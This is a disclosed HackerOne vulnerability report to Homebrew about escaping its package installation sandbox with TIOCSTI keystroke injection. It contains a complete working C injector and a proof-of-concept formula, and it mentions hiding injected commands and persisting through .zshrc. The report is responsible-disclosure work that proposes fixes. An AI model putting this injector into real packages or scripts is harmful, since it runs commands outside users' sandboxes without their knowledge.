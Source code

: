 # Bypass of the installation sandbox by injecting keystrokes with TIOCSTI

## Report Details
- **Report ID**: 1283871
- **URL**: https://hackerone.com/reports/1283871
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-07-30T00:13:55.725Z
- **Disclosed**: 2021-08-30T23:46:16.614Z

## Reporter
- **Username**: gedwards
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: homebrew

## Vulnerability Information
While doing some internal testing recently, we ran into installation sandboxing and found a way to bypass it so that a formula's install script can execute commands outside of the sandbox.

I understand from https://github.com/Homebrew/brew/issues/2986 that the sandbox is intended to prevent packages from making unwanted changes to users' systems. For example, the sandbox will prevent a formula from writing to a user's home directory like `touch /Users/$(whoami)/example` during the install stage.

The bypass takes advantage of the fact that the sandbox allows writing to /dev/tty (see [sandbox.rb](https://github.com/Homebrew/brew/blob/a427de5bee50646a974fa8acd96a62ed0fbc10fa/Library/Homebrew/sandbox.rb#L168)) and we can use the TIOCSTI ioctl on that path. TIOCSTI is a call to "Insert the given byte in the input queue" which fakes user input.

In other words, instead of executing the command we want, a small utility program could insert the string `touch /Users/$(whoami)/example` and then a newline into the user's terminal. Once the brew command finishes, the user's shell (outside any sandbox) receives the injected keystrokes and executes them like any other command the user types. (This was largely based on the su attack described at https://ruderich.org/simon/notes/su-sudo-from-root-tty-hijacking)

Here's an example of a formula using this:

```
  def install
    system "gcc -o bypass bypass.c"
    system "echo", "Trying to create ~/poc-sandboxed from inside the sandbox"
    # the || true at the end is so the error doesn't make the whole installation fail
    system "touch /Users/`whoami`/poc-sandboxed || true"
    system "echo", "Using the bypass to create ~/poc-bypassed"
    system "./bypass", "touch /Users/`whoami`/poc-bypassed"
    # Do something so the installation is successful
    bin.install "bypass"
  end
```

The bypass utility to inject a string into /dev/tty is:

```
// based on https://ruderich.org/simon/notes/su-sudo-from-root-tty-hijacking
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>
int main(int argc, char *argv[]) {
    if( argc != 2 ) {
        printf("Usage: %s \"command to run\"\n", argv[0]);
        return 1;
    }
    int fd = open("/dev/tty", O_RDWR);
    if (fd < 0) {
        perror("open");
        return -1;
    }
    int ret = ioctl(fd, TIOCSTI, "\n");
    if (ret == -1) {
        perror("ioctl()");
    }
    char *x = argv[1];
    while (*x != 0) {
        ret = ioctl(fd, TIOCSTI, x);
        if (ret == -1) {
            perror("ioctl()");
        }
        x++;
    }
    ret = ioctl(fd, TIOCSTI, "\n");
    if (ret == -1) {
        perror("ioctl()");
    }
    return 0;
}
```

I'm attaching the formula, the tarball, and a demo video which shows the file `poc-bypassed` being created in my home directory by an injected command. I typed all the other commands in the video, but not the `touch` one. In a real attack I would probably also inject a `clear` command or something like that to hide the injected command.

I can think of two approaches to prevent injecting keystrokes like this:

- Programs are only allowed to use TIOCSTI on their own parent terminal. It fails on other /dev/tty* devices even if they're owned by the same user. So if you can create a pty (pseudoterminal) for executing sandboxed commands, it should disconnect them from being able to write into the user's terminal where their shell is running unsandboxed. Ruby has a pty module that seems like it might work for this, but frankly I'm terrible with Ruby and didn't understand the code well enough to add this in correctly (sorry - I tried to make this a simple pull request).
- Alternately if write access to /dev/tty can be removed from the sandbox profile, that also prevents the TIOCSTI, but that might break other packages if they legitimately write to that device. I don't know how common that is.

## Impact

During the installation process, a package can cause commands to be executed outside the sandbox just after installation finishes, making changes to the user's system that would normally be prohibited by the installation sandbox. For example, a malicious package could insert a line into .zshrc to make sure its payload gets executed every time the user opens a terminal. 

I consider this relatively low severity because, frankly, the user is installing something and they're probably going to execute part of it sooner or later. But it does break the goal of sandboxing: "We're making it so users can install from any tap without fearing that it will write random files to random places on their filesystem."

## Attachments
- bypass_demo.mov
- sandbox-bypass.rb
- bypass.tar.gz
